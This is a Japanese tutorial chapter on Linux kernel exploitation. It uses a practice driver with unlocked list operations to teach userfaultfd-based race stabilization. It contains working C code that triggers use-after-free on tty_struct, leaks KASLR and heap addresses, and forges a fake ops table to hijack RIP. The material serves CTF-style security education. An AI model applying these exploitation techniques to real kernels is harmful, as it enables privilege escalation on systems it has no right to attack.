




LK04(Fleckvieh)では、LK01-4(Holstein v4)で学んだものと同様のRace Conditionを、より厳しい条件で扱います。まず[練習問題LK04](distfiles/LK04.tar.gz)のファイルをダウンロードしてください。

## ドライバの確認
まずはドライバのソースコードを読んでみてください。今回のドライバは今までに比べると量が多く、これまで登場しなかった機能や記法が存在します。`module_open`は次のようになっています。
```c
static int module_open(struct inode *inode, struct file *filp) {
  /* Allocate list head */
  filp->private_data = (void*)kmalloc(sizeof(struct list_head), GFP_KERNEL);
  if (unlikely(!filp->private_data))
    return -ENOMEM;

  INIT_LIST_HEAD((struct list_head*)filp->private_data);
  return 0;
}
```
まず4行目に`unlikely`というマクロが登場しています。これはLinuxカーネルでは[次のように定義され](https://elixir.bootlin.com/linux/v5.16.14/source/include/linux/compiler.h#L77)、頻繁に登場します。
```c
#define likely(x)      __builtin_expect(!!(x), 1)
#define unlikely(x)    __builtin_expect(!!(x), 0)
```
ほとんどの場合片方しか通らない条件分岐（セキュリティチェックやメモリ不足の確認）などにおいて、どちらの分岐に通りやすいかをコンパイラに教えられます。正しい予測で`likely`, `unlikely`マクロを使えば、何度も通るような条件分岐では実行速度の向上に繋がります。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    コンパイラにヒントを与えると、よく通るパスほど命令数や分岐回数を減らしてくれるよ。
    このあたりの話はCPUの分岐予測とも関わるから、気になる人は調べてみてね。
  </p>
</div>

次に、7行目に`INIT_LIST_HEAD`というマクロが登場しています。これは`tty_struct`などで登場した双方向リストの`list_head`構造体を初期化するためのマクロです。各ファイルopenに対して双方向リストを作るために`private_data`にこの構造体を入れています。
このリストは`blob_list`構造体に繋がります。
```c
typedef struct {
  int id;
  size_t size;
  char *data;
  struct list_head list;
} blob_list;
```
リストへのアイテムの追加は`list_add`, 削除は`list_del`, イテレーションは`list_for_each_entry(_safe)`などの操作があります。具体的な使い方については適宜調べてください。

`ioctl`の実装を見ると、このモジュールには`CMD_ADD`, `CMD_DEL`, `CMD_GET`, `CMD_SET`の4種類の操作があることが分かります。
```c
static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  struct list_head *top;
  request_t req;
  if (unlikely(copy_from_user(&req, (void*)arg, sizeof(req))))
    return -EINVAL;

  top = (struct list_head*)filp->private_data;

  switch (cmd) {
    case CMD_ADD: return blob_add(top, &req);
    case CMD_DEL: return blob_del(top, &req);
    case CMD_GET: return blob_get(top, &req);
    case CMD_SET: return blob_set(top, &req);
    default: return -EINVAL;
  }
}
```
`CMD_ADD`はリストに`blob_list`を追加します。各`blob_list`は0x1000バイト以下のデータを持ち、内容は任意に設定できます。また、追加時にランダムにIDが割り振られ、`ioctl`の返り値としてユーザー側が貰えます。ユーザーは以降そのIDを使って、その`blob_list`を操作できます。
`CMD_DEL`は、IDを渡すことで対応する`blob_list`をリストから破棄できます。
`CMD_GET`は、IDとバッファおよびサイズを指定して、対応する`blob_list`のデータをユーザー空間にコピーします。
最後に`CMD_SET`は、IDとバッファおよびサイズを指定して、対応する`blob_list`にユーザー空間からデータをコピーします。

今までのモジュールと同様にデータを保存できる機能ですが、Fleckviehではリストでデータを管理しており、複数のデータを保存できるようになっています。

## 脆弱性の確認
LK01をすべて勉強した方なら脆弱性は一目瞭然でしょう。どこの処理にもロックが取られていないため、簡単にデータ競合が発生します。しかし、この競合をexploitしようとすると問題が発生します。
データを双方向リストという複雑な構造で管理しているため、削除するタイミングでデータを読み書きしようとしても、unlinkのタイミングで書き込もうとする可能性があり、リンクやカーネルヒープの状態が破壊されてしまいます。すると、race中にクラッシュしたり、Use-after-Freeができたかを判定できなかったりと困ります。
実際にraceを書いて確認しましょう。
```c
int fd;

int add(char *data, size_t size) {
  request_t req = { .size = size, .data = data };
  return ioctl(fd, CMD_ADD, &req);
}
int del(int id) {
  request_t req = { .id = id };
  return ioctl(fd, CMD_DEL, &req);
}
int get(int id, char *data, size_t size) {
  request_t req = { .id = id, .size = size, .data = data };
  return ioctl(fd, CMD_GET, &req);
}
int set(int id, char *data, size_t size) {
  request_t req = { .id = id, .size = size, .data = data };
  return ioctl(fd, CMD_SET, &req);
}

int race_win;

void *race(void *arg) {
  int id;
  while (!race_win) {
    id = add("Hello", 6);
    del(id);
  }
}

int main() {
  fd = open("/dev/fleckvieh", O_RDWR);
  if (fd == -1) fatal("/dev/fleckvieh");

  race_win = 0;

  pthread_t th;
  pthread_create(&th, NULL, race, NULL);

  int id;
  for (int i = 0; i < 0x1000; i++) {
    id = add("Hello", 6);
    del(id);
  }
  race_win = 1;
  pthread_join(th, NULL);

  close(fd);
  return 0;
}
```
このコードでは複数スレッドでデータの追加と削除を繰り返します。競合が発生すると双方向リストのリンクが壊れるため、最後の`close`でリストの内容を解放する際にクラッシュします。

このように、複雑なデータ構造における競合はexploitできないのでしょうか。

## userfaultfdとは
今回のように複雑な条件の競合をexploitしたり、競合の成功確率を100%にするために、userfaultfdという機能を悪用した攻撃方法があります。

`CONFIG_USERFAULTFD`を付けてLinuxをビルドすると、**userfaultfd**という機能が使えるようになります。userfaultfdはユーザー空間でページフォルトをハンドルするための機能で、システムコールとして実装されています。

`CAP_SYS_PTRACE`を持っていないユーザーが`userfaultfd`をすべての権限で使うためには`unprivileged_userfaultfd`フラグが1になっている必要があります。このフラグは`/proc/sys/vm/unprivileged_userfaultfd`で設定・確認でき、デフォルトでは0になっていますが、LK04のマシンでは1になっていることが確認できます。

ユーザーは`userfaultfd`システムコールでファイルディスクリプタを受け取り、それにハンドラやアドレスなどの設定を`ioctl`で適用します。userfaultfdを設定したページでページフォルトが起きた場合（初回アクセス時）、設定したハンドラが呼び出され、ユーザー側でどのようなデータ（マップ）を返すかを指定できます。図で表すと次のような手順で処理が発生します。

<center>
  
</center>

ページフォルトが発生すると登録したユーザー空間のハンドラが呼び出されるため、ページを読もうとしたスレッド1は、スレッド2のハンドラがデータを返すまでブロックします。これはカーネル空間からのページ読み書きでも同じなため、読み書きのタイミングでカーネル空間の処理を停止させられます。

## userfaultfdの使用例
試しに次のコードを実行してみましょう。
```c
#define _GNU_SOURCE
#include <assert.h>
#include <fcntl.h>
#include <linux/userfaultfd.h>
#include <poll.h>
#include <pthread.h>
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <unistd.h>

void fatal(const char *msg) {
  perror(msg);
  exit(1);
}

static void* fault_handler_thread(void *arg) {
  char *dummy_page;
  static struct uffd_msg msg;
  struct uffdio_copy copy;
  struct pollfd pollfd;
  long uffd;
  static int fault_cnt = 0;

  uffd = (long)arg;

  dummy_page = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
                    MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  if (dummy_page == MAP_FAILED) fatal("mmap(dummy)");

  puts("[+] fault_handler_thread: waiting for page fault...");
  pollfd.fd = uffd;
  pollfd.events = POLLIN;

  while (poll(&pollfd, 1, -1) > 0) {
    if (pollfd.revents & POLLERR || pollfd.revents & POLLHUP)
      fatal("poll");

    /* ページフォルト待機 */
    if (read(uffd, &msg, sizeof(msg)) <= 0) fatal("read(uffd)");
    assert (msg.event == UFFD_EVENT_PAGEFAULT);

    printf("[+] uffd: flag=0x%llx\n", msg.arg.pagefault.flags);
    printf("[+] uffd: addr=0x%llx\n", msg.arg.pagefault.address);

    /* 要求されたページとして返すデータを設定 */
    if (fault_cnt++ == 0)
      strcpy(dummy_page, "Hello, World! (1)");
    else
      strcpy(dummy_page, "Hello, World! (2)");
    copy.src = (unsigned long)dummy_page;
    copy.dst = (unsigned long)msg.arg.pagefault.address & ~0xfff;
    copy.len = 0x1000;
    copy.mode = 0;
    copy.copy = 0;
    if (ioctl(uffd, UFFDIO_COPY, &copy) == -1) fatal("ioctl(UFFDIO_COPY)");
  }

  return NULL;
}

int register_uffd(void *addr, size_t len) {
  struct uffdio_api uffdio_api;
  struct uffdio_register uffdio_register;
  long uffd;
  pthread_t th;

  /* userfaultfdの作成 */
  uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
  if (uffd == -1) fatal("userfaultfd");

  uffdio_api.api = UFFD_API;
  uffdio_api.features = 0;
  if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
    fatal("ioctl(UFFDIO_API)");

  /* ページをuserfaultfdに登録 */
  uffdio_register.range.start = (unsigned long)addr;
  uffdio_register.range.len = len;
  uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
  if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
    fatal("UFFDIO_REGISTER");

  /* ページフォルトを処理するスレッドを作成 */
  if (pthread_create(&th, NULL, fault_handler_thread, (void*)uffd))
    fatal("pthread_create");

  return 0;
}

int main() {
  void *page;
  page = mmap(NULL, 0x2000, PROT_READ | PROT_WRITE,
              MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  if (page == MAP_FAILED) fatal("mmap");
  register_uffd(page, 0x2000);

  /* スレッド中のputsとfutexでハングするので直接printfで出力しない */
  char buf[0x100];
  strcpy(buf, (char*)(page));
  printf("0x0000: %s\n", buf);
  strcpy(buf, (char*)(page + 0x1000));
  printf("0x1000: %s\n", buf);
  strcpy(buf, (char*)(page));
  printf("0x0000: %s\n", buf);
  strcpy(buf, (char*)(page + 0x1000));
  printf("0x1000: %s\n", buf);

  getchar();
  return 0;
}
```
このコードでは`register_uffd`にページのアドレスとuserfaultfdを設定するサイズを渡します。`register_uffd`はページフォルトを処理するスレッド`fault_handler_thread`を作成します。
ページフォルトが発生すると`fault_handler_thread`中の`read`でイベントを取得し、データを返します。上記のサンプルプログラムでは、何回目のページフォルトかによって返すデータを変更しています。

`main`関数では2ページ分の領域を確保[^1]し、それに対してuserfaultfdを設定しています。最初の2つの`strcpy`[^2]では初回アクセスによりページフォルトが発生するため、userfaultfdのハンドラが発火します。次のように、最初の2回でハンドラが呼ばれ、ハンドラで返したデータが反映されていれば成功です。

<center>
  
</center>

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    userfaultfdのハンドラは別スレッドで動くから、メインスレッドと違うCPUで動く可能性があるよ。
    ハンドラ内でオブジェクトを確保するとき、CPUごとにキャッシュされたヒープ領域が使われるとUAFが失敗しちゃうから、sched_setaffinity関数でCPUを固定するように注意してね。
  </p>
</div>

## Raceの安定化
実際にuserfaultfdをexploitに利用してみましょう。
userfaultfdを使うことでページフォルトのタイミングでカーネル空間（ドライバ中の処理）からユーザー空間へコンテキストを切り替えられます。ページフォルトが起こるのは設定したユーザー空間のページを最初に読み書きしようとした時なので、今回のドライバでは`copy_from_user`や`copy_to_user`の箇所で処理を一時停止できます。列挙すると次の箇所で処理を止められることが分かります。

- `blob_add`の`copy_from_user`
- `blob_get`の`copy_to_user`
- `blob_set`の`copy_from_user`

Use-after-Freeが目的なので、上記のような関数で処理を止めている間にデータを`blob_del`で削除できます。`blob_get`中に削除すればUAF Readが、`blob_set`中に削除すればUAF Writeが実現できます。`tty_struct`などをUse-after-Freeで読み書きしてみましょう。
図で流れを表すと次のようになります。

<center>
  
</center>

`tty_struct`と同じサイズ帯(kmalloc-1024)で確保したバッファ`victim`に対して`blob_get`を呼びます。この際userfaultfdを設定したアドレスを渡すと、`blob_get`中の`copy_to_user`でページフォルトが発生してハンドラが呼ばれます。排他制御をしていないためハンドラ中から`blob_del`が呼べて、その結果`victim`は解放されます。
さらに、`tty_struct`をsprayすると先ほど解放した`victim`の領域にttyオブジェクトが確保されます。あとはハンドラから適当なバッファを渡し、復帰すれば`copy_to_user`で`victim`のアドレスからデータがコピーされるため、ユーザー空間にttyオブジェクトがコピーされます。
同じ原理で`blob_set`を呼べばUAFによるオブジェクトの書き換えも可能です。コードを書いてUAFを確認してみましょう。

```c
cpu_set_t pwn_cpu;

int victim;
char *buf;

static void* fault_handler_thread(void *arg) {
  static struct uffd_msg msg;
  struct uffdio_copy copy;
  struct pollfd pollfd;
  long uffd;
  static int fault_cnt = 0;

  /* メインスレッドと同じCPUで動かす */
  if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu))
    fatal("sched_setaffinity");

  uffd = (long)arg;

  puts("[+] fault_handler_thread: waiting for page fault...");
  pollfd.fd = uffd;
  pollfd.events = POLLIN;

  while (poll(&pollfd, 1, -1) > 0) {
    if (pollfd.revents & POLLERR || pollfd.revents & POLLHUP)
      fatal("poll");

    /* ページフォルト待機 */
    if (read(uffd, &msg, sizeof(msg)) <= 0) fatal("read(uffd)");
    assert (msg.event == UFFD_EVENT_PAGEFAULT);

    /* 要求されたページとして返すデータを設定 */
    switch (fault_cnt++) {
      case 0: {
        puts("[+] UAF read");
        /* [1-2] `blob_get`によるページフォルト */
        // victimを解放
        del(victim);

        // tty_structをスプレーし、victimの場所にかぶせる
        int fds[0x10];
        for (int i = 0; i < 0x10; i++) {
          fds[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
          if (fds[i] == -1) fatal("/dev/ptmx");
        }

        // このページのデータを持つバッファ（copy_to_userで上書きされるので適当）
        copy.src = (unsigned long)buf;
        break;
      }

      case 1:
        /* [2-2] `blob_set`によるページフォルト */
        // victimを解放
        break;
    }

    copy.dst = (unsigned long)msg.arg.pagefault.address;
    copy.len = 0x1000;
    copy.mode = 0;
    copy.copy = 0;
    if (ioctl(uffd, UFFDIO_COPY, &copy) == -1) fatal("ioctl(UFFDIO_COPY)");
  }

  return NULL;
}

...

int main() {
  /* メインスレッドとuffdハンドラが必ず同じCPUで動くよう設定する */
  CPU_ZERO(&pwn_cpu);
  CPU_SET(0, &pwn_cpu);
  if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu))
    fatal("sched_setaffinity");
    
  fd = open("/dev/fleckvieh", O_RDWR);
  if (fd == -1) fatal("/dev/fleckvieh");

  void *page;
  page = mmap(NULL, 0x2000, PROT_READ | PROT_WRITE,
              MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  if (page == MAP_FAILED) fatal("mmap");
  register_uffd(page, 0x2000);

  buf = (char*)malloc(0x400);
  victim = add(buf, 0x400);
  set(victim, "Hello", 6);

  /* [1-1] UAF Read: tty_structのリーク */
  get(victim, page, 0x400);
  for (int i = 0; i < 0x80; i += 8) {
    printf("%02x: 0x%016lx\n", i, *(unsigned long*)(page + i));
  }

  return 0;
}
```

コードは長いですが、やっていることはさきほどの図に書いた通りです。100%の確率でUse-after-Freeが成功することが確認できます。

<center>
  
</center>

上図のリークされたデータを見ると気づくかもしれませんが、`tty_struct`の先頭のデータがコピーできていません。（本来`tty_operation`などがありますが、最初の0x30バイトあたりはすべて0になっています。）
これは`copy_to_user`を大きいサイズで呼んだことが原因です。`copy_to_user`は`victim`の領域からデータをコピーしますが、先頭からコピーしようと試みます。`victim`の先頭の方を読み込むと、次にそのデータを宛先にコピーしようとします。ここで初めてページフォルトが発生するため、最初の方のバイト列はUAFが発生する前のものになります。
幸いにも`copy_to_user`はコピーサイズに応じて、コピーの各ループイテレーションでどれだけのサイズのデータをコピーするか（レジスタに貯め込むか）が変わります。したがって、例えば0x20のような小さいサイズで`copy_to_user`を呼べば、最初の0x10バイトのみがUAF前のデータとなり、`tty_operations`のポインタを含む残りの0x10バイトはUAF後のものがコピーされます。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
  　アセンブリレベルでいつページフォルトが起きるかを把握できていないと、デバッグが大変そうだね。
  </p>
</div>

KASLRとヒープアドレスのリークができれば、同様にUAF Writeを作ります。
今回もいつもどおり偽の`tty_struct`の`ops`を偽の関数テーブルに向けるのですが、今回UAFが発生するアドレスは前回リークした場所と異なる可能性があることに注意してください。リークしたヒープのアドレスは`close`で解放した`tty_struct`の場所なので、まずは偽`tty_operation`をsprayするようにしましょう。（今回は`tty_operation`と`tty_struct`を兼用します。）
```c
      case 2: {
        puts("[+] UAF write");
        /* [3-2] `blob_set`によるページフォルト */
        // 偽tty_operationをspray (リークしたkheapにかぶらせる)
        for (int i = 0; i < 0x100; i++) {
          add(buf, 0x400);
        }

...

  /* [2-1] UAF Read: tty_structのリーク (ヒープ) */
  victim = add(buf, 0x400);
  get(victim, page+0x1000, 0x400);
  unsigned long kheap = *(unsigned long*)(page + 0x1038) - 0x38;
  printf("kheap = 0x%016lx\n", kheap);
  for (int i = 0; i < 0x10; i++) close(ptmx[i]);
```
リーク済みアドレスに偽関数テーブルを用意できたら、UAF Readと同様にUAFを引き起こします。
```c
        // victimを解放し、tty_structをspray
        del(victim);
        for (int i = 0; i < 0x10; i++) {
          ptmx[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
          if (ptmx[i] == -1) fatal("/dev/ptmx");
        }

        // このページのデータを持つバッファ（copy_from_userで書き込む内容）
        copy.src = (unsigned long)buf;
```
今回はUAF Writeなので、書き込むデータを制御する必要があります。書き込むデータは`copy.src`に指定します。そのため、事前に偽`tty_struct`を用意しておきましょう。
```c
  /* [3-1] UAF Write: tty_structの書き換え */
  memcpy(buf, page+0x1000, 0x400);
  unsigned long *tty = (unsigned long*)buf;
  tty[0] = 0x0000000100005401; // magic
  tty[2] = *(unsigned long*)(page + 0x10); // dev
  tty[3] = kheap; // ops
  tty[12] = 0xdeadbeef; // ops->ioctl
  victim = add(buf, 0x400);
  set(victim, page+0x2000, 0x400);
```
RIPが制御できていれば成功です。あとは各自で権限昇格までのexploitコードを完成させてください。

<center>
  
</center>

サンプルのexploitコードは[ここ](exploit/fleckvieh_uffd.c)からダウンロードできます。

---

<div class="column" title="例題">
  今回はRaceを安定化させる目的のみでuserfaultfdを使いました。
  一方で、ページをまたいでデータを配置すると、構造体の特定のメンバの読み書きで処理を止めることができます。
  この手法を利用してexploitできるような状況について考察してみましょう。
</div>

[^1]: 初回アクセス時にページフォルトを発生させたいので`MAP_POPULATE`を付けていません。
[^2]: 直接`printf`すると、`printf`関数内でフォルトが発生してハンドラ中の`puts`や`printf`とバッファリングのデッドロックが発生してプログラムが停止するので注意しましょう。カーネルexploitの文脈では、カーネル空間からフォルトを発生されるので気にする必要はありません。
